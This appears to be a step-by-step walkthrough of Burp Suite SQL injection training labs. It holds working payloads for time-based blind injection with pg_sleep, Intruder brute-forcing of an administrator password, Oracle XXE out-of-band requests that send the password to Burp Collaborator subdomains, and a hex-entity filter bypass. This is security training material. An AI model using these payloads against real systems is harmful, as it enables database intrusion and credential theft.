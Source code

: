 **Step1:**

Click on categories

**Step2:**

Send the request to repeater

**Step3**

Type this command and lab will be solve

`'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`

**Step 1:**

Click on any categories as in previous lab

**Step2:**

Send the response of the request to repeater.

**Step3**

We modify request

`'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`

The responce is shown after time

So it is clear that there is a time delay injection.

Replacing `1=1`  with `1=2` the output is shown immediately.

**Step4**

Now we check user administrator is present or not

`'%  3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

So with the response time it is clear that user administrator is present

**Step5**

Now we find the length of password

`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

For this we use inruder.

Payload setting

From the result it is clear that length is 20 because it takes no time to generate response

**Step6**  
finding password for each index

`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

Again we use intruder for this purpose and set the payload to cluster bomb type

Payload 1

Payload 2

Now click on column and click response received

Now we sort response received

Password:mk7qel448ezj4bcimol0


**Step 1:**

Click on any categories as in previous lab

**Step2:**

Send the response of the request to repeater.

**Step3:**

Using this payload

`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`

Adding burp collaborator subdomain

Click on copy to collaborator

Mycase :`zbeaotk65l2z8oqqmqtihzw7vy1ppfd4.oastify.com`

Final exploit

`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//zbeaotk65l2z8oqqmqtihzw7vy1ppfd4.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`

Result in collaborator

And lab is solved

**Step 1:**

Click on any categories as in previous lab

**Step2:**

Send the response of the request to repeater.

Using this query

`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`

Modify the query

`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.ebtpo8kl502e83q5m5txhewmvd17p2dr.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`

Click on poll now

Here is the result

`Password:myjzzrk4gj5yomjsigl4`

**Step 1**

Click on

Then

**Step2:**

When we try to inject query in stock id it give error

So we use the hex entities

 `Extensions > Bapp>Hackvertor`

Installing it.

Now we right click then

 `Extensions > Bapp>Hackvertor > Encode > dec_entities/hex_entities.`

And add query

`UNION SELECT username||'~~~'||password FROM users`

output
